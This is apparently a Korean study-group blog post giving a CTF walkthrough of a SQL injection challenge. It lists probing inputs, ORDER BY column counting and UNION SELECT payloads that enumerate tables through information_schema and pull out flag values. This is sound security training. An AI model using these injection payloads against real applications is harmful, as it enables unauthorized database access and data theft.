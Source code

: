 ```yaml
---
layout: post
comments: true
sitemap:
    changefreq: daily
    priority: 0.5

title: "[SECURITY] CTF 문제 풀이: SQL INJECTION"
excerpt: "모의해킹 취업반 스터디 7기 6주차"

date: 2024-11-25
last_modified_at: 

tags: [WEB, DATABASE, SECURITY]
---
```


1. adminer
-> 대소문자 구분 X
2. adminer'
-> X
3. a%
-> like 구절 있어
4. a#
-> X
5. a'#
-> X
6. a%'#
-> 입력값이 들어가는 곳이 like 위치인가 보다
-> 괄호 안 들어가고
7. ' and '1' = '1
-> X
8. %' and '1' = '1
-> X
9. ' and '1' = '1'#
-> O
10. ' order by 1, 2, 3, 4 #
-> O
11. ' order by 1, 2, 3, 4, 5 #
-> X
-> column 개수 4개
12. ' union select 1, 2, 3, 4 #
-> O
13. ' union select database(), 2, 3, 4 #
-> sqli_1
19. ' union select table_name, 2, 3, 4 from information_schema.tables where table_schema = 'sqli_1' #
-> flag_table, plusFlag_Table, user_info
20. ' union select 1, column_name, 3, 4 from information_schema.columns where table_name = 'flag_table' #
-> flag
21. ' union select 1, column_name, 3, 4 from information_schema.columns where table_name = 'plusFlag_Table' #
-> idx, flag
22. ' union select flag, 2, 3, 4 from flag_table #
-> segfault{Basic_Union_SQLi} -> 정답이구요
23. ' union select idx, flag, 3, 4 from plusFlag_Table #
-> offline_segfault{thisIsReal!} -> 이게 뻥카네요
